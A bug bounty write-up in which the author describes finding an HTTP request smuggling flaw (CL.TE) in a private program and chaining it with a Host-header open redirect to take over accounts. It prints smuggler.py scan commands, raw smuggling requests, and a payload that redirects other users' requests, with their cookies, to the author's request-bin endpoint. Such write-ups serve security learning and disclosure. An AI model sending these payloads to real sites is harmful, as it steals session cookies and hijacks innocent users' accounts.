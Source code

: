 ```yaml
---
title: I owe your Request | HTTP Request Smuggling leads to Full Accounts takeover
author: Muhammad Adel
date: 2021-08-29 19:40:00 +0200
categories: [Bug Hunting]
tags: [bug hunting, web, http request smuggling, writeups]
---
```


## **Introduction**
Peace be upon you all, this is actually my first writeup which is going to be about a very interesting vulnerability, HTTP Request Smuggling, which I found in a private program, which I was able to escalate it to full account takeover. I am going to share with you how to search for this vulnerability on a large scale and what the best tool and resource to utilize when testing for this vulnerability.

It begins almost when the amazing researcher [James kettle](https://twitter.com/albinowax) announce his new research at DEFCON, which addresses a new era of the HTTP request smuggling but this time for HTTP/2. I watched the video, and I couldn't understand anything, So I went back and studied the previous version of this attack, and I thought what about testing this "rare attack" as some people think, before moving to the new one. I ended up finding this critical vulnerability in two different private programs.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiH8QkhdKu6BciITe6D%2F-MiHFxfVj0C3vf_kr-u0%2Ftwitter.png?alt=media&token=76b7e577-2df0-4f4c-96f1-c7624ad3a351)

## **About HTTP Request Smuggling**
HTTP request smuggling is an attack in which an attacker interferes with the processing of a sequence of HTTP requests that a web application receives from one or more users. Vulnerabilities related to HTTP request smuggling are often critical, allowing an attacker to bypass security measures, gain unauthorized access to sensitive data, and directly compromise the information of other users of the application.

I am not going to cover it here because Portswigger did a really good job at explaining this with practical Labs.

[https://portswigger.net/web-security/request-smuggling](https://portswigger.net/web-security/request-smuggling)

## **Methodology**
After you have learned about the vulnerability, you can start looking for it in some bug bounty programs. You have two methods but remember you need to test this with caution because it is very harmful:

1.Using the HTTP Request Smuggling Burp Extension, either the burp community or pro. You can widen your scope by adding more subdomains and URLs, selecting them all, and from the extension tab, clicking **smuggle probe.**

‌2\. Using [smuggler.py](https://github.com/defparam/smuggler) tool which is a command line tool that replicate almost the same process of the burp extension.

```bash
# Single Host:
python3 smuggler.py -u <URL>

# List of hosts:
cat list_of_hosts.txt | python3 smuggler.py
```
‌Note: These scanners will not guarantee the existence of vulnerabilities; there are false positives, so you need to validate every finding of any of these tools.
‌
## **The Finding**

Since it is a private program, we are going to name it as `readcted.com` I started by collecting some subdomains, then I fed all those subdomains to burp and started to crawl the website. Then I run the burp extension scanner in all the subdomains. And after some time, I found this issue on my target tab.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiH8QkhdKu6BciITe6D%2F-MiHNT93loWWcwRV3sTA%2Fburp_issue.png?alt=media&token=4d18476c-72bc-4dcc-add0-d7de0ee221db)

It is a CT.TE Here, the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header. this information is very important to be able to exploit the vulnerability.

### **Validating**

I started now to validate if the vulnerability exits or it is just a false positive. I sent the following request:

```
POST / HTTP/1.1 
Host: subdoamin.readcted.com
Upgrade-Insecure-Requests: 1 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 7 
Transfer-Encoding: chunked 
Transfer-encoding: identity


1
A
0
```
which successfully triggers a connection time out indicating the backend server process the transfer encoding header. Now it is the time to exploit it.

### **Exploiting**

To exploit HTTP Request Smuggling Vulnerability you have to use turbo intruder to be able to send concurrent request and to receive the smuggled one before it reach the user. we will send the following request:

```
POST / HTTP/1.1
Host: redacted.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Transfer-Encoding: chunked
Transfer-encoding: identity

0

GET /video HTTP/1.1
Foo: x
```
We manged to send the smuggled request to **`/video`** to be able to disrupt the user experience by smuggle a not found web page. then we will chose **`smuggle attack CL.TE`** form the extension tab and then click attack.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiH8QkhdKu6BciITe6D%2F-MiHTkc_PU7-cN6_EbLN%2Fnot_found%20turbo%20intuder.png?alt=media&token=53a10c8c-d248-4983-be21-a0cd2ba3c881)

Great! now we confirmed that the vulnerability exists and can disrupt the user experience who browse the website to redirect him to a not found page. but still we need to escalate this vulnerability to something else. as you know HTTP Request smuggling can lead to many vulnerabilities but still we need anther harmless vulnerability like Self XSS or Open redirection to be able to escalate our attack. I manged to search for Self XSS but unfortunately I didn't find. Let's search for an open redirected.

### **Harmless Open Redirect**

what we need to find is an open redirection to be able to redirect the user traffic with their own cookie to our server. we have found before a local redirection which is if the website isn't found it will make a redirection like the following:

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMOdbd-AYVghO5XQ4x%2F-MiMRuFbfOUxn-gI7MvH%2Flocal%20redirection.png?alt=media&token=918b888e-cce1-42b6-9238-49b7f140fb67)

The problem is that the redirection is locally in the website and we need an external one. but what if change the host header to something else?!

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMOdbd-AYVghO5XQ4x%2F-MiMSa2Vt5Cnx5F579av%2Fexternal%20redirection.png?alt=media&token=2673760a-394a-44ba-8339-6ac730428b47)

**BINGO!!** almost all the companies will not accept this vulnerability per se but by combining this with HTTP Request Smuggling we will do Magic!

### **Escalating to Full Account takeover**

Now let's craft our request that will be smuggled to send our malicious one. I will use [request bin ](https://requestbin.com/) to poison the response queue and receive users responses into my endpoint. The payload will look like the following:
‌
```
POST / HTTP/1.1
Host: redacted.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Transfer-Encoding: chunked
Transfer-encoding: identity

0

GET /video HTTP/1.1
Host: enfliy4kmrr8i.x.pipedream.net
Foo: x
```
And then pass our request to the turbo intruder to start our attack:

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMqTVoY0h_myvBGJ3h%2F-MiN12rU2wKYeV-0YdJu%2F1-turbo-intruder-redacted.png?alt=media&token=2cc95312-90cc-49ad-aee0-9016c56a0f11)

Okay, the attack worked. Now let's go back to our the endpoint to see what's happened.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMqTVoY0h_myvBGJ3h%2F-MiN2Uly_EoUyexj4Omh%2F3-Request%20bin%20--%20with%20Cookie-redacted.png?alt=media&token=2b599ba5-3516-45b1-914b-341164a2c1fc)

**BOOM!!** My endpoint is flooding with requests (other users responses) that contain cookies. Now, I can fully take over any account that is browsing the website.

## **Conclusion**

I have reported this, and they are working on a fix at the current moment. The sad story is that this report has been closed as a duplicate, but I was able to find the same technique on another website and received a 4-digit bounty as a reward.

I hope you enjoyed reading this, and if you have any questions, feel free to ping me any time, Happy Hunting!